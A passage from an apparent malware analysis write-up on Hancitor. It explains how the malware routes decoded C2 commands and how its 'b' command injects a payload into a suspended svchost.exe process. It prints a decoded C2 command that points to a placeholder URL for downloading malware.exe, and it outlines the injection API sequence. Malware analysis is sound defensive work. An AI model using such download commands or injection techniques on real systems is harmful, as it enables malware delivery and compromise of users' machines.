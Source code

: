 ```sh
# i.e decoded command

 X:http://badsite.com/malware.exe|

```
<br>
<br>
## Executing C2 Commands

[![](/assets/images/malware-analysis/Hancitor/c2_commands.png)](/assets/images/malware-analysis/Hancitor/c2_commands.png)
<center><u>Figure</u>(11): <u>Conditional code flows depending on the 1st character of the C2 command.</u> </center>

<br>After retrieving the C2 command and performing the appropriate decoding, the command is validated and then passed to the routing in which it will download and execute the malicious content. The malicious content will be downloaded using the URL at offset 3 from the beginning of the C2 string. Then, based on the first character of the C2 command, one of the switch case branches will be executed.

There are 5 available options or executions paths. Excluding the `n` command because it simply acts as a `NOP` operation, so we have 4 valid options.


### The 'b' Command

This execution branch will perform a process injection in a **newly** created `svchost.exe`process with *CREATE_SUSPENDED* flag. The injected malicious code is first checked to be a valid PE file -DLL or EXE- in order to be injected. After creating a new svchost process in suspended state, the injection is done in a classic way using the APIs: `VirtualAllocEx` and `WriteProcessMemory`. What is more interesting here is the way the malware sets the new Entry point for the malicious code.

[![](/assets/images/malware-analysis/Hancitor/change_OEP.png)](/assets/images/malware-analysis/Hancitor/change_OEP.png)
<center> <u>Figure</u>(12): <u>A thread context is a snapshot of processor-specific register data.</u> </center>
